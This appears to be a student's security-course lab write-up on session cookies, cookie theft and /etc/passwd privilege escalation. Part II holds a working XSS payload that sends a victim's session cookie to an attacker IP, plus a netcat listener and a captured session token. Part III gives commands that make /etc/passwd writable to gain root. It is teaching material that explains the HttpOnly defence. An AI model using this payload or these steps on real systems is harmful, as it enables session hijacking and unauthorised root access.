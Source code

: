Ⅰ. Session Cookies Working As Intended
======================================

### a. What new cookie did you see when you logged in as Alice?

Upon logging in as alice, I see a cookie named "session" whose value is some base64 encoded text
 
### b. What is a session cookie?

A session cookie is a small text files sent by the server to be stored on the browser that gets deleted once you exit the website or the browser. It can contain information about user inputs such as login status, shopping carts, and etc. 
 
### c. What happens when you copy Alice's cookies to the new browser window and reload?

If you copy Alice's cookies to the new browser window and reload, you get logged in as Alice.
 
### d. How session cookies work

1. User signs in at the login page. A HTTP POST request is sent to the server, which contains username and password information.

2. The server responds with 302 FOUND HTTP response with a header called "Set-Cookie" that contains the name value pair of session cookie and the path of the cookie. The session cookie will be set by the server regardless of user's login status. However, the session cookie has session ID, which is used to verify user's identity. If the session ID is not associated with any valid users at the server side at the given moment, the serve won't allow users with the wrong session ID to access restricted domains.  

3. If the user selected "Remember me" on the login page, then the server will also respond with another "Set-Cookie" header, containing name value pair of remember token with expiration date, path, and HttpOnly flag.

4. After receiving the name value pair of session cookie (and remember token) from the server through the "Set-Cookie" flag, the browser includes session cookie in "Cookie" header of subsequent HTTP GET requests until the user exits the site or quits the browser. 

5. Suppose the user exited the website (or quit the browser). Suppose the remember token cookie was set in previous session and the remember token cookie is not expired. When the user tries to login to the same website, the browser sends a HTTP GET request with remember token cookie. 

6. If the remember token cookie is valid, the server responds with 200 OK with a new session cookie, specified in the "Set-Cookie" header of the HTTP Response. Then, the interaction between the browser and the server proceeds in the manner of step 3.    

7. When use presses the log out button, the browser sends a HTTP GET request to a logout page.  

8. The server responds with 302 FOUND, with appropriate number of "Set-Cookie" headers to delete the cookie values and reset cookie expiration date. 
 
### e. What opportunities do session cookies open to you?

If you get hold of a valid user's session cookie, you can pretend to be a valid user while carrying out malicious campaigns on a server, making it difficult for administrators to blame you for any potential damages (repudiation).

If you have the capacity to conduct AITM, then you could invalidate user's session cookies so that the user can not login (Denial of Service).
 
Ⅱ. Stealing Session Cookies
===========================

### a. Show an exact copy of your FDF post as Eve. Give a brief explanation of what the Javascript in your FDF post does.

```
<script>
document.cookie.split(';').forEach(function(e) { 
    let parts = e.split('='); 
    let name = parts[0].trim(); 
    if (name === 'session') { 
        fetch('http://192.168.187.128:80/?s=' + parts[1], {method:'get'})
            .catch(function(error) {}); 
        } 
    }); 
</script>
```
When this malicious post is opened by an unaware user: 
1. Get the cookies of the user
2. Iterate through the cookies until you encounter the session cookie 
3. Send an HTTP GET request to my kali VM with the user's seesion cookie as a url parameter

### b. What did you do on Eve's machine to prepare to receive Alice's information?

```
nc -lvnp 80 
```
The above command listens for any connections to port 80. 

### c. Show the form in which Alice's information arrived on Kali.

```
GET /?s=.eJwtzj0OwjAMQOG7ZGZwnNiOe5kq8Y9gbemEuDsdWJ_0pO9T9jzifJbtfVzxKPvLy1YqNKw0jGExjgkCMGJqt2QeYahWJSrNYQmm3iTvQ1SZVg8IcVNFcRHCma2HdEAjdHC6syHijBa-NHFN9Orc3TtxXZA5G5cbcp1x_DXl-wNqHi7_.Zzj-jA.ugfkPEaZWEtqhZE1uIlWA6gIXRA HTTP/1.1
Host: 192.168.187.128
Origin: http://cs338.jeffondich.com
Connection: keep-alive
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.6 Safari/605.1.15
Accept-Language: en-US,en;q=0.9
Referer: http://cs338.jeffondich.com/
Accept-Encoding: gzip, deflate 
```

### d. What can Eve do now to login to FDF as Alice?

Eve can now login as Alice using Alice's session cookie. Eve can either use proxy like Burpsuite to modify HTTP request or open the inspector tool to change the value of the session cookie to Alice's session cookie.

### e. Diagram clearly the sequence of events in Eve's attack on Alice via the FDF

1. Eve first posts a malicious script on the FDF and uses netcat to listen to oncoming traffic at port 80.
2. Alice opens the malicious post, and the scripts gets executed by the browser. 
    - As explained above, the script fetches the session cookie and sends are get request to Eve's machine
3. A HTTP GET request is sent to the specified ip address and port number.  
4. netcat, which is running of Eve's machine, receives the requests, displaying Alice's session cookie as part of the requested url.  
5. Eve uses Alice's cookie to log into the FDF by changing her session cookie value to be Alice's.

### f. Research and explain "HttpOnly." Show exactly where in you diagram of the attack that the use of HttpOnly would prevent Eve's attack from working.

HttpOnly flag forbids Javascript from accessing cookies. If this attribute was set with "Set-Cookie" header, then the following code would not have worked:
```
document.cookie.split(';') 
``` 
Thus, if HttpOnly flag was set, Eve's malicious code would not have executed when Alice unknowingly opened the post.

Ⅲ. Privilege Escalation via a Misconfigured /etc/passwd File
============================================================

### a. Show the Unix permissions of /etc/passwd and /etc/shadow on Kali VM 

```
ls -als /etc/passwd /etc/shadow
```

```
4 -rw-r--r-- 1 root root   3224 Nov 13 08:57 /etc/passwd
4 -rw-r----- 1 root shadow 1507 Nov 13 09:15 /etc/shadow 
```

### b. Which command do you execute as 'kali' user to make /etc/passwd globally writeable?

```
sudo chmod 766 /etc/passwd  
```

### c. How do you enable kermit to change the password for the "root" account?  

1. Open a terminal and open /etc/passwd file to write. 
2. Change the user and group id to 0, 0 (root's user and group id) 
3. Close the current terminal and open a new terminal for a fresh session. 
4. Note that you have kermit's previous uid and gid, but whoami cannot find name for kermit's previous uid.

### d. Show kermit can login as root 

login as kermit using kermit's password:
```
su kermit
```
Because uid and gid have been changed to be those of root's, kermit should not be logged in as root.

